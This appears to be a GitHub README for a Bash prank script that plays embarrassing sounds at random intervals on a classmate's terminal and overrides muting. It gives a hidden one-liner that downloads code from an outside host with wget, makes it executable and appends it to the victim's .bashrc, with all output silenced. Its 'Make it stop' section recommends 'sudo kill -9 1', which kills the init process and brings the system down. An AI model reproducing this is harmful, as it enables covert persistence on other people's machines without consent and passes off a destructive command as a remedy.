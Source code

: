 Bash Prank
-----------
Imagine you are in class.
Someone - we wont say who - opens up their terminal.
Then they close it.
Then after a random time interval - say anywhere from 1 to 300 seconds
a random sound plays.
Oh, it can be an embarrassing sound.
Did you say they had headphones on?
Didn't work very well for them now did it?
Did you say they tried muting it?
Ahh - you mean it unmuted and went to full volume a second later.




Run via
```bash
    ./al.sh & disown $!
```

## Implementation ideas BASHRC##
Hide in their bashrc
```bash
    ./{PATH_TO_FILE}/al.sh & disown $!
```

Do everything via: mkdir
```bash
    ~/.config/al >/dev/null 2>&1; cd ~/.config/al; \
    wget -r -nc -nd http://prank.hostei.com/ >/dev/null 2>&1 && chmod +x al.sh \
    && echo ". ~/.config/al/al.sh & disown $!" >> ~/.bashrc
```
## Implementation ideas StartUP Command##
https://help.ubuntu.com/community/AddingProgramToSessionStartup
```bash
    ./{PATH_TO_FILE}/al.sh & disown $!
```


## Removal Instructions ##
---------------------------
Really? You want to get rid of this amazing piece of code that inhances your life more than sliced bread?

## Make it stop ##
---------------------------
Hint: It starts with m and it plays things. The source code might be a good place to look for things to kill. I recommend:
```bash
    sudo kill -9 1
```